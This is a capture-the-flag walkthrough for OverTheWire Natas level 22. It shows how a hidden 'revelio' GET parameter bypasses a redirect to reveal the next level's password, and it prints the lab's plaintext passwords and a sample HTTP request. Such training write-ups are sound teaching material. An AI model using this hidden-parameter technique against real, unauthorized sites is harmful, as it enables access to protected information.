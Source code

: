 # Natas CTF Solutions  

## Natas Level 22  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit the `revelio` parameter to bypass session-based authentication and access the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas22.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas22`  
- **Password:** Use the password from Natas Level 21:  
```
d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
```  

![Home_Page](https://github.com/user-attachments/assets/e381471b-6e98-4c56-a9fe-ecc74ec29bcb)

---

### **Step 3: Analyze the Source Code**  
- Upon checking the source code, it's clear that there’s a `GET` parameter named `revelio`.  
- If this parameter is set, the server generates the correct response.  

![Source_Code](https://github.com/user-attachments/assets/5710e06a-4ba8-43a3-97e3-660b815b51b9)

---

### **Step 4: Trigger the Parameter**  
1. Open the following URL directly in the browser or using Burp Suite:  
```  
http://natas22.natas.labs.overthewire.org/index.php?revelio  
```  

✅ Example Request in **Burp Suite**:  
```http
GET /index.php?revelio HTTP/1.1
Host: natas22.natas.labs.overthewire.org
```

![BurpSuite](https://github.com/user-attachments/assets/e8d6a903-fc1c-4e35-8f10-44abbe6c82c7)

---

### **Step 5: Output**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas23 is: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs  
```  

---

### **✅ Password for Natas Level 23**  
```
dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
```  

---

## 💡 **Lessons Learned**  
✔️ **Hidden Parameters:** Developers often leave hidden parameters accessible through GET/POST requests.  
✔️ **Security Through Obscurity:** Relying on hidden parameters is not secure.  
✔️ **Testing with Debug Parameters:** Revealing debug parameters can expose sensitive information.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/5710e06a-4ba8-43a3-97e3-660b815b51b9) |  
| Step 4 – Found Password | ![BurpSuite](https://github.com/user-attachments/assets/e8d6a903-fc1c-4e35-8f10-44abbe6c82c7) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 23**:  
👉 [http://natas23.natas.labs.overthewire.org](http://natas23.natas.labs.overthewire.org)  

---
